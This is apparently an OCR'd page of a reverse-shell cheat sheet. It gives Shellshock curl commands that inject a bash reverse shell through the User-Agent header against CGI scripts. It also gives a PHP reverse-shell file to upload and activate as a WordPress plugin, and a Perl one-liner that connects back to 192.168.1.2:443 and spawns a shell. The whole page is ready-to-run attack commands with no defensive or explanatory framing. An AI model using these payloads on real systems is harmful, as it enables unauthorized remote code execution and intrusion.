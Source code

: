 `Shellshock (HTTP) [FIX -> 500 Internal Server Error]`

```
curl -H "User-Agent: () { :; }; echo; /bin/bash -c 'bash -i >& /dev/tcp/192.168.1.2/443 0>&1'" "<http://192.168.1.3/cgi-bin/evil.sh>"

curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/192.168.1.2/443 0>&1'" "<http://192.168.1.3/cgi-bin/evil.sh>"

curl -H "User-Agent: () { :; }; echo; /bin/bash -c 'bash -i >& /dev/tcp/192.168.1.2/443 0>&1'" "<http://192.168.1.3/cgi-bin/evil.cgi>"

curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/192.168.1.2/443 0>&1'" "<http://192.168.1.3/cgi-bin/evil.cgi>"

```

---

`Wordpress`

```
root@kali:~# nano reverse.php

```

```
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.2/443 0>&1'");
?>

```

```
root@kali:~# zip reverse.zip reverse.php

```

- Plugins
- Add New
- Upload Plugin
- Install Now
- Activate Plugin

---

## Perl

```
perl -e 'use Socket;$i="192.168.1.2";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

```

---
